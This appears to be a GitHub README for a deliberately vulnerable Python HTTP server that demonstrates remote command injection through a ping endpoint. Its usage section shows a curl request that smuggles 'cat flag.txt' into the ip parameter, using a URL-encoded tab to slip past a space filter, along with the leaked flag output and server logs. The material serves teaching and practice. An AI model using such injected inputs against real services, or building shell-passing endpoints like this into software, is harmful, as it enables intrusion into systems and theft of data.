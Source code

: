 # rce-endpoint
Simple python http server to demonstrate RCE vulnerabilities.

### Run
```
lomaha@rce-endpoint % python3 main.py -a=127.0.0.1 -p=80 -u=/ping -c='ping -c 1'
```
### Use
#### Client side:
```
lomaha@rce-endpoint % curl -G "http://127.0.0.1:80/ping?ip=8.8.8.8;cat%09flag.txt" 
b'PING 8.8.8.8 (8.8.8.8): 56 data bytes\n64 bytes from 8.8.8.8: icmp_seq=0 ttl=111 time=7.668 ms\n\n--- 8.8.8.8 ping statistics ---\n1 packets transmitted, 1 packets received, 0.0% packet loss\nround-trip min/avg/max/stddev = 7.668/7.668/7.668/0.000 ms\nLOMAHA{cwhf85wLOMAHA4375023}'
```
#### Server side:
```
Server started http://127.0.0.1:80
127.0.0.1 - - [25/Dec/2021 20:49:42] "GET /ping?ip=8.8.8.8;cat%09flag.txt HTTP/1.1" 200 -
Path: '/ping'
Query params: 'ip'
Quer value: '8.8.8.8;cat	flag.txt'

```